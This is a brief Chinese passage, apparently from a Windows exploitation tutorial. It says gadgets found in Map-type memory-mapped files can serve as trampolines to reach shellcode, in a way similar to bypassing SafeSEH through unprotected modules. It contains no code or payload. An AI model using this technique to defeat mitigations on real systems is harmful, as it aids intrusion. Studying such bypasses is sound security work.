那既然这样，我们可不可以在 Map 类型的映射文件中寻找跳板指令（俗称 gadgets），然后跳转到我们的 ShellCode 上执行呢？  
答案是可以的，这种攻击方式与上面的利用未启用 SafeSEH 的模块突破 SafeSEH 的方式很类似，都是寻找跳板指令，这里不再做过多赘述。
